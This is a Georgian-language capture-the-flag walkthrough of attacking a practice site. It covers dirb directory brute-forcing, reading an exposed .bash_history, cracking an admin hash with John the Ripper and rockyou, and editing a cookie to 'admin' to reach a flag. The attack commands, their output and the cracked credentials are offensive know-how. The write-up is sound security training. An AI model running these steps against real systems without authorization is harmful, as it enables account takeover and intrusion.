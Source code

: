 ## კრიმინალურმა პოლიციამ აღმოაჩინა ვებ გვერდი საიდანაც შესაძლებელია იარაღის შეძენა უკანონოდ.
## თქვენი მიზანია განახორციელოთ შეტევა აღნიშნულ ვებგვერდზე და აღმოაჩინოთ კოდური გასაღები.

1. პირველრიგში, შევიდეთ მოცემულ ფეიჯზე. შესვლისას გვხვდება ჩვეულებრივი საიტი, რომელიც ბევრს არაფერს გვეუბნება. არც მისი ინსპექტით გახსნის შემდეგ ვხვდებით ბევრ რამეს.
 ![index.php](.images/index.png)


2. ვინაიდან მოცემული ფეიჯი არანაირ ინფორმაციას არ გვაძლევს, bruteforce-ით გადავუაროთ სახელებს და შევეცადოთ ვიპოვოთ ამ სერვერზე არსებული ფაილები თუ დირექტორიები.
ამისთვის გამოვიყენებთ ხელსაწყოს სახელად dirb:
    ```bash
    dirb <url_base> [<wordlist_file(s)>] [options]

    url_base - მისამართი რომელზეც გვინდა bruteforce (*)
    [<wordlist_file(s)>] - მისამართი ფაილზე, რომელიც შეიცავს სიტვებს. dirb გადაუყვება და ამ სიტყვების გამოყენებით შეეცდება იპოვოს დამალული მისამართი სერვერზე.
    [options] - სხვადასხვა ფლეგები (შეგიძლია დოკუმენტაციაში წაიკIთხოთ დეტალურად)
    ```
    გავუშვათ ბრძანება და ვნახოთ შედეგი:
    ```bash
    root@kali:~$ dirb http://185.212.254.50/

    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Sat May 30 16:44:59 2020
    URL_BASE: http://185.212.254.50/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612                                                          

    ---- Scanning URL: http://185.212.254.50/ ----
    + http://185.212.254.50/.bash_history (CODE:200|SIZE:1311)                     
    + http://185.212.254.50/index.html (CODE:200|SIZE:200)                         
    + http://185.212.254.50/server-status (CODE:403|SIZE:302)                      
    ==> DIRECTORY: http://185.212.254.50/wp/                                       
                                                                                
    ---- Entering directory: http://185.212.254.50/wp/ ----
    ==> DIRECTORY: http://185.212.254.50/wp/wordpress/
    
    # აქედან ყველა დირექტორია/ფაილი ვორდპრესს ეხებოდა, ამიტომაც აქ აღარ გამოვიტან.
    # სრული ლოგის სანახავად გადადით dirb.log ფაილზე 

    -----------------
    END_TIME: Sat May 30 17:08:25 2020
    DOWNLOADED: 202928 - FOUND: 16             
                                                            
    ```
    სრული ლოგი შეგიძლიათ იხილოთ აქ --> [dirb.log](dirb.log)

    dirb-ის აუთფუთიდან შეგვიძლია დავასკვნათ, რომ საიტი აწყობილია wordpress-ზე და სხვადასხვა ლინკებზე გადასასვლელად გვჭირდება აუთენთიფიკაცია, მაგრამ სანამ გადავიდოდეთ აუთენთიფიკაციის გატეხვაზე დავაკვირდეთ რომ dirb ბრძანებამ აღმოაჩინა კიდევ ერთი ფაილი: `.bash_history` (ეს ფაილი გამოიყენება ტერმინალში აკრეფილი ბრძანებების შესანახად)

    გავხსნათ ნაპოვნი ფაილი და გადავავლოთ თვალი (უბრალოდ შევიდეთ შემდეგ მისამართზე __185.212.254.50/.bash_history__ ):
    
    ფაილი შეგიძლია იხილოთ აქ დაკლიკებით --> [.bash_history](.bash_history)

3. [.bash_history](.bash_history) ფაილის გახსნისას ვხედავთ, რომ სერვერი აწეულია apache2-ზე. 
    აქ ჩვენთვის საინტერესო არის შემდეგი ორი ხაზი:
    * `mkdir /var/www/html/ctf/admin` (ctf არის capture the flag-ის აბრივიატურა, შესაბამისად ჩვენთვის გამოსადეგი რამ უნდა იყოს)
    * `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`

4. გადავიდეთ ctf/admin ფეიჯზე:
    ![.ctf/admin](.images/ctf-admin.png)
    როგორც ვხედავთ, გვჭირდება იუზერნეიმი და პაროლი, ასევე გვეუბნება რომ გამოვიყენოთ [John The Ripper](https://www.openwall.com/john/). ეს არის ხელსაწყო, რომელიც ჰეშების plain-text-ში აღდგენაში გამოიყენება. 

5. როგორც ctf/admin ფეიჯზე ვნახეთ, გვჭირდება იუზერნეიმი და პაროლი. შეგვიძლია ასევე დავუბრუნდეთ [.bash_history](.bash_history) ფაილს სადაც ვიპოვეთ ეს ჩანაწერი `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`. როგორც ვხედავთ შენახული მომხმარებლის იუზერნეიმი არის 'admin', პაროლი კი დაჰეშილი სახით ინახება, სწორედ აქ გამოგვადგება ჩვენი ჯონი.
    ```bash
    john <hash.txt> --wordlist=<pass.txt>

    hash.txt - ფაილი რომელიც შეიცავს თქვენს ჰეშ(ებ)ს
                ფაილში შეიძლება შეინახოთ ან მარტო ჰეშები (ყოველი ახალი ჰეში ახალ ხაზზე) ან იუზერნეიმი და ჰეში ოწერტილით გამოყოფილი [Username:Hash]
    pass.txt - ფაილი რომელიც შეიცავს იმ სიტყვების სიას, რომლებიც უნდა შევამოწმოთ 
    ```

    * როგორც ვნახეთ უნდა მოვამზადოთ ჰეშების სია. ჩვენს შემთხვევაში მარტო ერთი ჰეშია. ავიღოთ ის ბრძანება, რომელიც სერვერზე გაუშვეს და გავუშვათ ჩვენც
    `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`
    ამ ბრძანების შემდეგ 'passwords' ფაილში ჩაიწერება 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.'
    შეგიძლიათ თქვენით შექმნათ ახალი ფაილი და ხელით ჩაწეროთ ეს კონტენტი.
    შექმნილი ფაილი შეგიძლიათ იხილოთ აქ --> [passwords](passwords)

    * გვჭირდება ასევე ფაილი, რომელიც შეიცავს პაროლებს. ასეთი სიისთვის ყველაზე კარგი ვარიანტია [rockyou.txt](https://www.scrapmaker.com/download/data/wordlists/dictionaries/rockyou.txt). (ფაილის სიდიდის გამო, მხოლოდ დაზიპული ფაილის მოწოდება შემიძლია: [rockyou.txt.gz](../../utils/wordlists/rockyou.txt.gz) ამოაარქივეთ და ჩვეულებრივად შეძლებთ გამოყენებას)

    ავაწყოთ და გავუშვათ ჩვენი ბრძანება
    ```bash
    john Pentest/GunMarket/passwords --wordlist='utils/wordlists/rockyou.txt'
    ```

    აუთფუთი:
    ```bash
    john Pentest/GunMarket/passwords --wordlist='utils/wordlists/rockyou.txt'
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    admin123         (admin)
    1g 0:00:00:01 DONE (2020-05-31 07:13) 0.9009g/s 81059p/s 81059c/s 81059C/s agape1..a00000
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```

    `admin123         (admin)` <-- ეს ხაზი გვეუბნება რომ `admin` იუზერნეიმის მქონე მომხმარებლის დაჰეშილი პაროლი იყო `admin123`.

    P.S. გაშვებულმა ბრძანებამ შეიძლება შემდეგი აუთფუთი დაგიბრუნოთ
    ```bash
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
    No password hashes left to crack (see FAQ)
    ```
    `No password hashes left to crack (see FAQ)` ამით ვხვდებით რომ ყველა პაროლი გაშიფრულია, მაგრამ აუთფუთში არაფერს არ გვიჩვენებს. ჯონი ჭკვიანი როჟაა და იმახსოვრებს იმ ჰეშებს, რომლებიც აქამდე გაშიფრა. ეს მესიჯიც მაგას ნიშნავს. ადრე გაშიფრული პაროლების გასაშიფრად გამოვიყენოთ `--show` ფლეგი, რომელსაც გადაეცემა გასაშიფრი ჰეშების სია. გავუშვათ შემდეგი ბრძანება:
    ```bash
    john --show Pentest/GunMarket/passwords 
    ```
    აუთფუთი:
    ```bash
    admin:admin123

    1 password hash cracked, 0 left
    ```


6. დავუბრუნდეთ ctf/admin ფეიჯს და შევიყვანოთ შემდეგი მონაცემები
    ```bash
    User Name: admin
    Password: admin123
    ```
    გადაგვიყვანა შემდეგ ფეიჯზე:
    ![.admin_page](.images/admin_page.png)
    როგორც ვხედავთ მოცემულია [Cookie Monster](https://en.wikipedia.org/wiki/Cookie_Monster)-ის სურათი. ეს ერთგვარ მინიშნებად შეგვიძლია მივიღოთ და ჩავიხედოთ cookie-ებში. (inspect -> storage -> Cookies -> http://185.212.254.50)
    ![.admin_page_cookies](.images/admin_page_cookies.png)
    username-ს გრაფაში value-დ უწერია guest_user. აქ შეგვიძლია ნებისმიერი რამ ჩავწეროთ და ფეიჯის დარეფრეშების შემდეგ გამოჩნდება ჩვენი ჩაწერილი ველიუ. იუზერნებიმი იყო admin. ფეიჯის თაითლიც არის admin_page. შეიძლება ვივარაუდოთ, რომ value უნდა იყოს admin. შევცვალოთ დავარეფრეშოთ და ვნახოთ რა მოხდება:
    ![.admin_page_flag](.images/admin_page_flag.png)
    გილოცავთ! თქვენ იპოვეთ პირველი flag. ასევე მივიღეთ მინიშნება : 'Check our wordpress site for secret staff /wp/wordpress/ !!!'